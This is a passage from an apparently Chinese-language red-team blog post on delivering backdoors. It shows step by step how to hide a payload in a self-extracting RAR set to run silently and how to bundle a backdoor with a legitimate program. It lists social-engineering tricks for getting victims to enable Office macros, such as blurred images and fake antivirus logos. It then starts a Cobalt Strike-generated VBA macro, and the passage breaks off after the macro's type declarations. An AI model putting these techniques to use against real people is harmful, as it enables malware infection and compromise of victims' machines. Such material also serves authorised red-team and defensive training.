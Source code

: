 点击之后就会弹出 `calc.exe`

当然我们也可以换成其他的，比如说 powershell payload。直接上线。

#### 4. 自解压

rar压缩⽂件，可以把⽂件进⾏压缩，然后运⾏后进⾏⾃解压的操作。

[![slBku9.png](https://s3.ax1x.com/2021/01/10/slBku9.png)](https://imgchr.com/i/slBku9)

高级自解压选项，设置绝对路径。

[![slBW2F.png](https://s3.ax1x.com/2021/01/10/slBW2F.png)](https://imgchr.com/i/slBW2F)

设置提取后运行

[![slDFG8.png](https://s3.ax1x.com/2021/01/10/slDFG8.png)](https://imgchr.com/i/slDFG8)

设置模式为全部隐藏

[![slDVMQ.png](https://s3.ax1x.com/2021/01/10/slDVMQ.png)](https://imgchr.com/i/slDVMQ)

加压后成功上线。

[![slylJP.md.png](https://s3.ax1x.com/2021/01/10/slylJP.md.png)](https://imgchr.com/i/slylJP)

#### 5. 捆绑文件

[![slcMgf.png](https://s3.ax1x.com/2021/01/10/slcMgf.png)](https://imgchr.com/i/slcMgf)

生成，执行之后会执行 `cmd.exe` 一样的效果，但此时后门软件也被执行了。

## 二、邮件钓鱼

#### 2.1 伪造

伪造简历等等一切可以是对方打开的文档。

#### 2.2 office 宏钓鱼

宏是Office自带的一种高级脚本特性，通过VBA代码，可以在Office中去完成某项特定的任务，而不必再重复相同的动作，目的是让用户文档中的一些任务自动化。现在Office的宏功能已经默认是禁用。

常用的套路使对方开启宏，

- 文档是被保护状态，需要启用宏才能查看；
- 添加一张模糊的图片，提示需要启用宏才能查看高清图片；
- 提示要查看文档，按给出的一系列步骤操作；
- 贴一张某杀毒软件的Logo图片，暗示文档被安全软件保护。

cs 生成宏代码

[![sl7tIK.md.png](https://s3.ax1x.com/2021/01/10/sl7tIK.md.png)](https://imgchr.com/i/sl7tIK)

```vba
Private Type PROCESS_INFORMATION
    hProcess As Long
    hThread As Long
    dwProcessId As Long
    dwThreadId As Long
End Type

Private Type STARTUPINFO
    cb As Long
    lpReserved As String
    lpDesktop As String
    lpTitle As String
    dwX As Long
    dwY As Long
    dwXSize As Long
    dwYSize As Long
    dwXCountChars As Long
    dwYCountChars As Long
```